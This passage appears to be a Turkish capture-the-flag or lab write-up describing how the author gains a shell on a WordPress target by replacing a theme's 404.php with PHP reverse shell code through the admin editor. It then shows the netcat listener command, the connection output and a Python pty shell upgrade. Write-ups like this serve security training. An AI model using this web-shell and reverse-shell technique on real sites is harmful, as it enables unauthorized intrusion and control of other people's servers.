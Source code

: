 
Appearance/Editör dizinine giderek Wordpress içerisinde mevcut olan sayfalarımız da değişiklik yapabiliyoruz.
Mevcut bir sayfada kaynak kodu .php reverse shell kodlarımızla değiştirerek reverse shell alacağız. 

![[Wordpress shell.png]]

Sayfayı kaydetim netcat aracımız ile 9001 portumuzu dinlemeye başlıyoruz. 

Url adresimize istek gönderdiğimizde reverse shell kodumuz çalıştı ve shell aldık .

```
http://10.10.55.194/wp-content/themes/twentyfifteen/404.php
```

```
└──╼ #nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.11.106.146] from (UNKNOWN) [10.10.55.194] 35035
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 16:51:22 up  2:13,  0 users,  load average: 0.15, 0.11, 0.16
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
sh: 0: can't access tty; job control turned off
$ whoami
daemon
```

Kabuğu çalıştırmak için 

```
python -c "import pty;pty.spawn('/bin/bash');"
```

```
$ python -c "import pty;pty.spawn('/bin/bash');"
daemon@linux:/$ 
```